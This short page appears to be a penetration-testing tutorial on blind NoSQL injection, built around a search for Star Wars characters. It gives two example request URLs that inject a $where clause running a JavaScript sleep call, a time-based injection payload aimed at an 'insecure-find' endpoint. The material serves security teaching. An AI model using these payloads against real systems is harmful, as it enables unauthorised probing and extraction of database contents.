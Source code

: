 # NoSQL Injection methodology 

### Blind NoSQL Injection
Suppose that the database returned no results in the browser, regardless of us submitting an included Star Wars character or not. So, we are talking about a “blind” 
```
http://175.12.96.97:8080/insecure-find?name=Obi-Wan',$where: 'function(){sleep(20000);}'}
http://175.12.96.97:8080/insecure-find?name=X,$where: 'function(){sleep(20000);}'}
```
